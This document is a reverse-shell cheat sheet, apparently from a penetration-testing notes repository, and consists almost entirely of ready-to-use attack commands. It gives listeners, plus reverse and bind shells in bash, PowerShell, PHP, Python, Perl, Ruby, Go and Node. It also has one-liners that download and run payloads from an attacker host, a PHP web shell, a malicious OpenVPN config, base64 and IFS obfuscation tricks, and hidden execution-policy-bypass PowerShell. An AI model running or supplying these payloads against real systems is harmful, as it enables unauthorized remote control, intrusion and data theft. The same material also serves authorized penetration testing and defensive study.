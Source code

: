 
# Reverse Shells

## Listeners 
```bash
nc -lvnp $source_port
```
```bash
rlwrap nc -lvnp $source_port
```
```bash
socat file:tty,raw,echo=0 tcp-listen:$source_port
```

## Commands

### Linux

```bash
nc -e /bin/bash $source_ip $source_port
```
```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc $source_ip $source_port >/tmp/f
```
```bash
bash -i >& /dev/tcp/$source_ip/$source_port 0>&1
```
```bash
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:$source_ip:$source_port
```
```bash
wget -q http://$source_ip/lists/static-binaries/binaries/linux/x86_64/socat -O /tmp/socat; chmod +x /tmp/socat; /tmp/socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:$source_ip:$source_port
```
```bash
rm -f /tmp/p; mknod /tmp/p p && nc $source_ip $source_port 0/tmp/p
```
```bash
rm -f /tmp/p; mknod /tmp/p p && telnet $source_ip $source_port 0/tmp/p
```
```bash
curl http://$source_ip/tools_linux/nc -o /tmp/nc
chmod +x /tmp/nc 
/tmp/nc $source_ip $source_port -e /bin/sh
```
example.ovpn 
```conf
remote $source_ip
dev tun
nobind
script-security 2
up "/bin/bash -c 'bash -i >& /dev/tcp/$source_ip/$source_port 0>&1'"
```

### Windows 
```bash
//$source_ip/$smb_share/lists/static-binaries/binaries/windows/x86/ncat.exe $source_ip $source_port  --ssl -e cmd -v 
```
```bash
nc.exe -e cmd.exe $source_ip $source_port
```
```bash
//$source_ip/$smb_share/tools_windows/bin/nc.exe $source_ip $source_port -e cmd.exe
```
```
powershell -Command "Invoke-WebRequest http://$source_ip/tools_windows/bin/nc.exe -OutFile c:/Users/Public/nc.exe" & C:/Users/Public/nc.exe -e cmd.exe $source_ip $source_port
```
```
powershell -Command "IEX(New-Object Net.WebClient).DownloadString('http://$source_ip/Invoke-LovelyPotato.ps1')"
```

#### Reverse Shell
```powershell
New-Object System.Net.Sockets.TCPClient("$source_ip",$source_port);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```
```bash
powershell -NoP -NonI -W Hidden -Exec Bypass -Command New-Object System.Net.Sockets.TCPClient("$source_ip",$source_port);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```
```bash
@"%SystemRoot%\System32\WindowsPowerShell\v1.0\powershell.exe" -NoProfile -InputFormat None -ExecutionPolicy Bypass -Command New-Object System.Net.Sockets.TCPClient("$source_ip",$source_port);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```
```bash
powershell IEX (New-Object Net.WebClient).DownloadString('http://$source_ip/payloads_windows/mini-reverse.ps1')
```

#### Bind Shell
```bash
@"%SystemRoot%\System32\WindowsPowerShell\v1.0\powershell.exe" -NoProfile -InputFormat None -ExecutionPolicy Bypass -Command "$listener = New-Object System.Net.Sockets.TcpListener('0.0.0.0',$source_port);$listener.start();$client = $listener.AcceptTcpClient();$stream = $clie nt.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $byt es.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString ($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$str eam.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close();$listener.Sto p()"
```

### ncat

#### Reverse Shell
Attacker:
```
ncat -lnvp $source_port --allow $target --ssl
```
Victim:
```
ncat -nv $source_ip $source_port -e cmd.exe --ssl
```

#### Bind Shell
Victim:
```
ncat -lnvp $source_port -e cmd.exe --allow $source_ip --ssl
```
Attacker:
```
ncat -nv $target $source_port --ssl
```

## Programming Languages

- NodeJS: <https://ibreak.software/2016/08/nodejs-rce-and-a-simple-reverse-shell/>

### Linux
```bash
php -r '$sock=fsockopen("$source_ip",$source_port);exec("/bin/sh -i <&3 >&3 2>&3");'
```
```php
<?php $sock=fsockopen("$source_ip",$source_port);exec("/bin/bash -i <&3 >&3 2>&3");?>
```
```php
<?php system($_GET["cmd"]); ?>
```
```php
<?php system("wget http://$source_ip/public/payloads_linux/shell_reverse_tcp_x86.elf -O /tmp/shell.elf; chmod +x /tmp/shell.elf; /tmp/shell.elf"); ?>
```
```php
<?php system("curl http://$source_ip/public/payloads_linux/shell_reverse_tcp_x86.elf > /tmp/shell.elf; chmod +x /tmp/shell.elf; /tmp/shell.elf"); ?>
```
```php
<?php system("echo \"PD9waHAgPWZzb2Nrb3BlbigiMTAuMTAuMTQuMTYiLDEyMzQpO2V4ZWMoIi9iaW4vYmFzaCAtaSA8JjMgPiYzIDI+JjMiKTs/Pgo=\" | base64 -d > /tmp/shell.php; php /tmp/shell.php"); ?>
```
```bash
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("$source_ip",$source_port));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
```python
import os;​ os.popen("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc $source_ip $source_port >/tmp/f &").read()​
```
```bash
perl -e 'use Socket;$i="$source_ip";$p=$source_port;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```
```bash
ruby -rsocket -e'f=TCPSocket.open("$source_ip",$source_port).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
```
```bash
ruby -rsocket -e 'exit if fork;c=TCPSocket.new("$source_ip","$source_port");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'
```
```bash
echo 'package main;import"os/exec";import"net";func main(){c,_:=net.Dial("tcp","$source_ip:$source_port");cmd:=exec.Command("/bin/sh");cmd.Stdin=c;cmd.Stdout=c;cmd.Stderr=c;cmd.Run()}' > /tmp/t.go && go run /tmp/t.go && rm /tmp/t.go
```
```js
var net = require("net"), sh = require("child_process").exec("/bin/bash"); var client = new net.Socket(); client.connect($source_port, "$source_ip", function(){client.pipe(sh.stdin);sh.stdout.pipe(client); sh.stderr.pipe(client);});
```
```js
var net = require("net"), sh = require("child_process").exec("\\\\x2fbin\\\\x2fbash"); var client = new net.Socket(); client.connect($source_port, "$source_ip", function(){client.pipe(sh.stdin);sh.stdout.pipe(client); sh.stderr.pipe(client);});
```

#### Java 
- Bypass exec to get a reverse shell: <https://translate.google.lk/translate?sl=auto&tl=en&u=https%3A%2F%2Fblog.spoock.com%2F2018%2F11%2F25%2Fgetshell-bypass-exec%2F>
- exec() - breaks command into parts by `\t\n\r\f`

Replace `BASE64(-)` with the Based64 encoding of the said value.
- java.lang.Runtime.exec() Payload Workarounds: <http://www.jackson-t.ca/runtime-exec-payloads.html>

```bash
bash -c {echo,BASE64(bash -i >& /dev/tcp/$source_ip/$source_port 0>&1)}|{base64,-d}|{bash,-i}
```
```bash
bash -c {echo,BASE64(bash -i >& /dev/tcp/$source_ip/$source_port 0>&1)}|{base64,-D}|{bash,-i}
```
```
powershell.exe -NonI -W Hidden -NoP -Exec Bypass -Enc BASE64(calc.exe)
```
```
python -c exec('BASE64(calc.exe)'.decode('base64'))
```
```
perl -MMIME::Base64 -e eval(decode_base64('BASE64(calc.exe)'))
```

```bash
/bin/bash -c exec 5<>/dev/tcp/$source_ip/$source_port;cat <&5 | while read line; do $line 2>&5 >&5; done
```
```bash
bash -c bash${IFS}-i${IFS}>&/dev/tcp/$source_ip/$source_port<&1
```
```bash
bash -c $@|bash 0 echo bash -i >& /dev/tcp/$source_ip/$source_port 0>&1
```

### Windows
```bash
python.exe -c "(lambda __y, __g, __contextlib: [[[[[[[(s.connect(('$source_ip', $source_port)), [[[(s2p_thread.start(), [[(p2s_thread.start(), (lambda __out: (lambda __ctx: [__ctx.__enter__(), __ctx.__exit__(None, None, None), __out[0](lambda: None)][2])(__contextlib.nested(type('except', (), {'__enter__': lambda self: None, '__exit__': lambda __self, __exctype, __value, __traceback: __exctype is not None and (issubclass(__exctype, KeyboardInterrupt) and [True for __out[0] in [((s.close(), lambda after: after())[1])]][0])})(), type('try', (), {'__enter__': lambda self: None, '__exit__': lambda __self, __exctype, __value, __traceback: [False for __out[0] in [((p.wait(), (lambda __after: __after()))[1])]][0]})())))([None]))[1] for p2s_thread.daemon in [(True)]][0] for __g['p2s_thread'] in [(threading.Thread(target=p2s, args=[s, p]))]][0])[1] for s2p_thread.daemon in [(True)]][0] for __g['s2p_thread'] in [(threading.Thread(target=s2p, args=[s, p]))]][0] for __g['p'] in [(subprocess.Popen(['\\windows\\system32\\cmd.exe'], stdout=subprocess.PIPE, stderr=subprocess.STDOUT, stdin=subprocess.PIPE))]][0])[1] for __g['s'] in [(socket.socket(socket.AF_INET, socket.SOCK_STREAM))]][0] for __g['p2s'], p2s.__name__ in [(lambda s, p: (lambda __l: [(lambda __after: __y(lambda __this: lambda: (__l['s'].send(__l['p'].stdout.read(1)), __this())[1] if True else __after())())(lambda: None) for __l['s'], __l['p'] in [(s, p)]][0])({}), 'p2s')]][0] for __g['s2p'], s2p.__name__ in [(lambda s, p: (lambda __l: [(lambda __after: __y(lambda __this: lambda: [(lambda __after: (__l['p'].stdin.write(__l['data']), __after())[1] if (len(__l['data']) > 0) else __after())(lambda: __this()) for __l['data'] in [(__l['s'].recv(1024))]][0] if True else __after())())(lambda: None) for __l['s'], __l['p'] in [(s, p)]][0])({}), 's2p')]][0] for __g['os'] in [(__import__('os', __g, __g))]][0] for __g['socket'] in [(__import__('socket', __g, __g))]][0] for __g['subprocess'] in [(__import__('subprocess', __g, __g))]][0] for __g['threading'] in [(__import__('threading', __g, __g))]][0])((lambda f: (lambda x: x(x))(lambda y: f(lambda: y(y)()))), globals(), __import__('contextlib'))"
```
```bash
perl -MIO -e '$c=new IO::Socket::INET(PeerAddr,"$source_ip:$source_port");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'
```
```bash
ruby -rsocket -e 'c=TCPSocket.new("$source_ip","$source_port");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'
```

## Upgrade Your Shell
```bash
export TERM=xterm-256color
python -c 'import pty; pty.spawn("/bin/bash")'
```
Enter ctl+z in terminal that is running reverse shell"
```bash
echo $TERM
stty -a
stty raw -echo
```
```bash
fg
```
```bash
export SHELL=bash
export TERM=xterm-256color
stty rows 38 columns 116
```

Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.8 -Port 9999

## ICMP Shells

Disable ICMP replies:
```bash
sysctl -w net.ipv4.icmp_echo_ignore_all=1
```
- Listener/Server - <https://github.com/inquisb/icmpsh>
- Sender/Client - <https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellIcmp.ps1>
